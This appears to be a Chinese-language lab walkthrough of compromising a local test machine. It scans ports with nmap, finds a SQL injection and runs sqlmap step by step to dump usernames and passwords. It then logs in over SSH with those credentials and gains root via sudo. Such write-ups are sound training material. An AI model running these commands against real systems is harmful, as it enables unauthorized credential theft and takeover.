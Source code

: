 
# 0X00 环境
攻击机IP：192.168.1.10<br />目标机IP：192.168.1.7


# 0X01 实战
使用NMAP扫描端口
```
nmap -Pn -sV -A 192.168.1.7
```
![](https://img-blog.csdnimg.cn/58ff468bd5d149338681018da98fac1e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=jFWFc&originHeight=502&originWidth=744&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到开放的端口有22-SSH、25-SMTP、80-HTTP。

既然开放了80端口，那当然是先去看看80端口<br />![](https://img-blog.csdnimg.cn/58f9fa3dc5e54ea5b9d1009f09508d3e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=qkps9&originHeight=536&originWidth=742&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在浏览网页的过程中发现可能存在SQL注入的一个URL
```
http://192.168.1.7/index.html?page=blog&title=Blog&id=2
```
![](https://img-blog.csdnimg.cn/62e36b4e0298481ba0b652254859ec76.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=DDsCU&originHeight=532&originWidth=894&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用SQLMAP扫描
```
sqlmap -u "http://192.168.1.7/index.html?page=blog&title=Blog&id=2"
```

![](https://img-blog.csdnimg.cn/58495c6f003f4817b045d8d52851bc8c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=FPmUw&originHeight=509&originWidth=994&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

果然存在SQL注入

爆库
```
sqlmap -u "http://192.168.1.7/index.html?page=blog&title=Blog&id=2" --dbs
```

![](https://img-blog.csdnimg.cn/f5cf3c06be7b416f88126f0ea332158e.png#crop=0&crop=0&crop=1&crop=1&id=OEiKu&originHeight=194&originWidth=426&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在爆表的过程中发现在ehks库中存在user表
```
sqlmap -u "http://192.168.1.7/index.html?page=blog&title=Blog&id=2" -D ehks --tables
```

![](https://img-blog.csdnimg.cn/a66729e065334195bf2c1e69df532951.png#crop=0&crop=0&crop=1&crop=1&id=QkRyz&originHeight=186&originWidth=557&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

爆表
```
sqlmap -u "http://192.168.1.7/index.html?page=blog&title=Blog&id=2" -D ehks -T user --columns
```

![](https://img-blog.csdnimg.cn/6ce3af7ca51e4d898c911726921934aa.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=viTLU&originHeight=244&originWidth=712&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

爆user_name和user_pass字段
```
sqlmap -u "http://192.168.1.7/index.html?page=blog&title=Blog&id=2" -D ehks -T user -C user_name,user_pass --dump
```

得到一些账号和密码<br />![](https://img-blog.csdnimg.cn/6e4d102f40b445c491768113822970e4.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_18,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=a5yVa&originHeight=274&originWidth=654&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在前面的端口扫描中我们发现开放了22-SSH端口，尝试连接，连接成功！<br />![](https://img-blog.csdnimg.cn/b01025010a3844bd8c4164d73bbe48f5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=qOubo&originHeight=206&originWidth=755&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看当前权限<br />![](https://img-blog.csdnimg.cn/bd648b7584f44fdf9b2662e3e091a050.png#crop=0&crop=0&crop=1&crop=1&id=MzGRO&originHeight=95&originWidth=1186&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
可以看到在这里我们只是普通用户的权限，尝试提权，输入：

```
sudo su
```
![](https://img-blog.csdnimg.cn/f47a4a09a41d4b10af92bee7b063a976.png#crop=0&crop=0&crop=1&crop=1&id=KNjvT&originHeight=88&originWidth=1265&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
可以看到我们成功的拿到了root权限。
